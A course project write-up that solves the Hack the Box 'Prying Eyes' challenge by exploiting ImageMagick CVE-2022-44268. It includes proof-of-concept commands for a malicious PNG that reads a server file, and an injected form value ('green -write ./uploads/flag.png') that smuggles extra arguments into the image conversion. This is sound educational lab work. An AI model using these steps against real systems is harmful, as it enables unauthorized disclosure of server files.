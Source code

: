 ## CSCE 5552: Final Project

**CSCE 5552: Cybersecurity Essentials**

**Group 7**

**Hack the Box:** Prying Eyes (Medium)

https://app.hackthebox.com/challenges/459

**Challenge Description:** Welcome to the Prying Eyes, a "safe space" for those curious about the large organisations that dominate our life. How safe is the site really?

This final project involved capturing the flag for the Hack the Box Prying Eyes web box. Our process of investigation involved reconnaissance, analyzing source files, and researching possible vulnerabilities. Upon initial inspection, the site is identified as using HTTP, having user registration and login, and the ability to upload image files. The user registration and login became a possible point to exploit a SQL injection attack and gain access to database credentials. Subsequent access to the database could lead to system access that allows the flag to be captured. Another possible idea involved using a payload to exploit the file upload feature. 

## Reconnaissance:
Our group began by scanning for open ports and web application vulnerabilities. We utilized scanning tools, including nmap and Nessus, to further understand the web server. The nmap command only returned port 22 SSH. The Nessus vulnerability scanner only found that the web server was running on HTTP instead of HTTPS.

## Analyzing Source Files:
Our group's next step involved analyzing the source files that are available to download with the box. Within these javascript, dockerfile, and html files, we discovered multiple different tools and systems used by the web server as well as database credentials. This included sqlite and ImageMagick version 7.1.0-33.

## Researching Possible Vulnerabilities:
Keeping the gathered information in mind, our team began by attempting both basic and advanced SQL injection attacks through manual injection and by using the Hydra tool. After no luck with this type of attack, the version of ImageMagick was researched for possible vulnerabilities. The CVE-2022-44268 vulnerability was discovered (https://nvd.nist.gov/vuln/detail/CVE-2022-44268). This vulnerability allows for the disclosure of information to be embedded into a PNG file.

## Process of Capturing the Flag:
The steps taken to capture the flag include creating the malicious PNG file, uploading the malicious file to the website, altering the POST request, and retrieving the flag from the returned image file. In order to generate the malicious PNG file, the ImageMagick Arbitrary File Disclosure (CVE-2022-44268) tool by vulhub (https://github.com/vulhub/vulhub/tree/master/imagemagick/CVE-2022-44268) was used. 

Generate the malicious PNG that points to the flag.txt file within the working directory using the tool by vulhub:
```
sudo python3 ./poc.py generate -o evil.png -r /home/node/app/flag.txt
```

Verify the **tEXt** chunk is set to **profile./home/node/app/flag.txt**:
```
exiv2 -pS evil.png
```
![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/cde71d41-d5c9-469e-b48a-91820b89f62b)


**After the file was generated, Burp Suite was used to modify the POST request.**

Open Burp Suite in Kali:
```
burpsuite
```

Under 'Proxy', make sure 'Intercept is on' is selected. Then click 'Open browser' to launch the Chromium browser. Navigate to the website _(IP:Port)_ provided through Hack the Box within the Chromium browser, register if an account has not already been created, and login to an account. While intercept is turned on within Burp Suite, the user will need to 'Forward' all requests and responses. Once logged in, create a new post or comment on an existing post.

![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/c41b3cee-bcc4-469a-b9a6-b873c2abe831)

Modify the POST request to include another parameter, "Background", and alter the value to write to the /uploads directory:
```
Content-Disposition: form-data; name="background"

green -write ./uploads/flag.png
```

![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/e75bd378-f678-4493-8776-1bcf0754c032)

Navigate to the newly written file by going to file location within a browser:
```
http:://IP:Port/uploads/flag.png
```

The image that was uploaded should be shown on the flag.png page. Right-click and download this flie.

Convert the flag.AVIF file from AVIF to PNG:
```
convert flag.AVIF flag.png
```

Extract the metadata from the PNG file:
```
exiftool -b flag.png
```

Copy the long string hex code returned by the extraction into a hex to string calculator _(such as https://cyberchef.org/#recipe=From_Hex('Auto'))_ to obtain the flag.

## Risks of this Vulnerability:
This information disclosure vulnerability can allow for unauthorized access to data and a loss of confidentiality. If a threat actor gains unauthorized access to sensitive data, it may lead to financial and reputational losses.

## Prevention of this Vulnerability:
The CVE-2022-44268 vulnerability can be mitigated against by regular patching and updating of web application tools. Using versions with known vulnerabilities may leave systems open to being exploited.
